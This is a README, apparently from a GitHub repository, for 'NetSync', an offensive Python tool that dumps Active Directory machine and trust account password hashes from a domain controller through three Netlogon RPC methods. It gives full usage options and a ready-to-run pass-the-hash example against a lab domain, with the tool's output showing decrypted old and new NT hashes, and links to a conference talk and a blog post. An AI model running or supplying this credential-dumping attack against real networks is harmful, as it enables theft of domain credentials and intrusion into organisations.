 # NetSync

## Usage
```
usage: netsync.py [-h] -a ACCOUNT [-m {NetrServerPasswordGet,NetrServerTrustPasswordsGet,NetrServerGetTrustInfo}] [-ns NS] [-ts] [-debug] [-hashes LMHASH:NTHASH] [-dc-ip ip address] [-keytab KEYTAB] target

positional arguments:
  target                [[domain/]username[:password]@]<targetName>

options:
  -h, --help            show this help message and exit
  -a ACCOUNT, --account ACCOUNT
                        Account name to dump hash.
  -m {NetrServerPasswordGet,NetrServerTrustPasswordsGet,NetrServerGetTrustInfo}, --method {NetrServerPasswordGet,NetrServerTrustPasswordsGet,NetrServerGetTrustInfo}
                        Method to dump hash.
  -ns NS                Nameserver to resolve targetName
  -ts                   adds timestamp to every logging output
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -keytab KEYTAB        Read keys for SPN from keytab file
```

## Example
```
╰─❯ python netsync.py redlab.com/'dc2019$'@dc2019.redlab.com -hashes :9dd4cd13786ba6fefcf9730a7f7b5195 -ns 10.211.55.5 -a 'dc2019$'                                

  _   _      _   ____                   
 | \ | | ___| |_/ ___| _   _ _ __   ___ 
 |  \| |/ _ \ __\___ \| | | | '_ \ / __|
 | |\  |  __/ |_ ___) | |_| | | | | (__ 
 |_| \_|\___|\__|____/ \__, |_| |_|\___|
                       |___/            

[*] HostName: dc2019.redlab.com -> Resolved: 10.211.55.5
[*] Using domain controller: dc2019.redlab.com for domain redlab.com
[*] Capabilities: 1076809540
[*] Authenticated successfully! have these capabilities: SupportsRC4, DoesNotRequireValidationLevel2, SupportsRefusePasswordChange, SupportsNetrLogonSendToSam, SupportsGenericPassThroughAuthentication, SupportsConcurrentRpcCalls, SupportsStrongKeys, SupportsTransitiveTrusts, SupportsNetrServerPasswordSet2, SupportsNetrLogonGetDomainInfo, SupportsCrossForestTrusts, SupportsRodcPassThroughToDifferentDomains, SupportsSecureRpc
[*] Tring to sync password for dc2019$ using credentials for dc2019$
[*] Decrypt Old Hash: 31d6cfe0d16ae931b73c59d7e0c089c0
[*] Decrypt New Hash: 9dd4cd13786ba6fefcf9730a7f7b5195
```

Support 3 methods to get hash: NetrServerPasswordGet、NetrServerTrustPasswordsGet、NetrServerGetTrustInfo


## Links
* https://github.com/4ndr3w6/Presentations/blob/main/Texas_Cyber_Summit_2023/Slides/You_Disliked_DCSync_Wait_For_NetSync_Texas_Cyber_Summit_2023_Charlie_Andrew_Final.pdf
* https://trustedsec.com/blog/the-tale-of-the-lost-but-not-forgotten-undocumented-netsync-part-1



